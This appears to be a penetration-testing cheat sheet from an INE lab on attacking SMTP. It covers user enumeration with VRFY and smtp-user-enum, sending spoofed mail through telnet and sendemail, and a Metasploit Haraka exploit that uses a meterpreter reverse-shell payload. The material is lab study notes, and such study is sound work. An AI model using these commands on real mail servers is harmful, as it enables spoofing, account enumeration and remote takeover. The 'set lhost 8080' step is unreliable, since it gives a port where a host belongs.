 # Table of Contents
1. Overview
	1. ports
2. Tools
	1. netcat
	2. telnet
	3. [smtp-user-enum](#smtp-user-enum)
	4. [sendmail](#sendmail)
	5. [msfconsole](#msfconsole)

---

# Overview
Simple Mail Transfer Protocol

Useful for [enumerating](#msfconsole) users that are on the system.

## Ports
25

---

# Tools
## netcat
Can use netcat to log into server manually
```bash
nc demo.ine.local 25
```

```bash
VRFY admin@openmailbox.xyz
```

## telnet
telnet can be used to check supported commands/capabilities
```bash
telnet demo.ine.local 25
HELO attacker.xyz
EHLO attacker.xyz
```

Can use telnet login to draft an email
```bash
telnet demo.ine.local 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```

## smtp-user-enum

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

## sendmail

```bash
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```

## msfconsole

`use auxiliary/scanner/smtp/smtp_enum`
- helps find users on the system
### Example
1. `db_nmap -sV -O demo.ine.local` : scan and import
2. `search type:exploit name:haraka` : search for service found
3. `use exploit/linux/smtp/haraka`
	1. `options` : view options to set
	2. `set SRVPORT 9898` : local listen port, changed because payload
	3. `set email_to root@attackdefense.test` : to yourself?
	4. `set payload linux/x64/meterpreter_reverse_http`
	5. `set lhost 8080` : set payload lhost